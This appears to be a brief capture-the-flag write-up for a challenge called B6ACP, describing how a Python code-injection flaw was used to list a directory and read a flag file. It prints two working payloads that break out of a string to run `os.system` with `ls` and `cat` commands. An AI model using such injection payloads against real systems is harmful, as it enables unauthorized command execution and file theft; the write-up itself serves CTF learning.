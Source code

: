 # B6ACP [100 points] (97 solves)
Use `'), __import__('os').system('ls ..')#` and select `google` print list of files in the directory, since the flag is stored in home as description stated.
After several searches, use `'), __import__('os').system('cat ../home/hkcertuser/local.txt')#` to get the flag.